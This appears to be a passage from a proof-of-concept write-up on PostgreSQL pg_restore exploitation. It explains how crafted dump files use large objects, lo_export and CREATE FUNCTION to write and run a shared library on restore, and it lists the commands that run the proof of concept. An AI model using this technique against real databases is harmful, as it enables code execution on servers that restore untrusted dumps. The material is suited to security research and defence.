 ![copy-binary--execution](/assets/images/postgres_pgrestore_exploitation/bin_func.gif)

## Large object binary execution

This example consists of two stages.  The script `pgrestore_lo_export.py` will create two dump files which must be restored one after the other.

1) Insert the shared library into the large object table and create **lo_create.dump**.

2) Replace the pSQL sequence statements with the commands `lo_export` and `CREATE FUNCTION`, and create **lo_export.dump**.  The commands will write the shared library to a file, load it, and execute the function on database restoration.

```bash
$ psql -U postgres -c 'CREATE DATABASE poc' &&
> python pgrestore_lo_export.py
$ python pgrestore_lo_export.py <lo_id>
$ pg_restore -U postgres -d poc lo_create.dump
$ pg_restore -U postgres -d poc lo_export.dump
```

![large-object-code-execution](/assets/images/postgres_pgrestore_exploitation/lo_rev.gif)
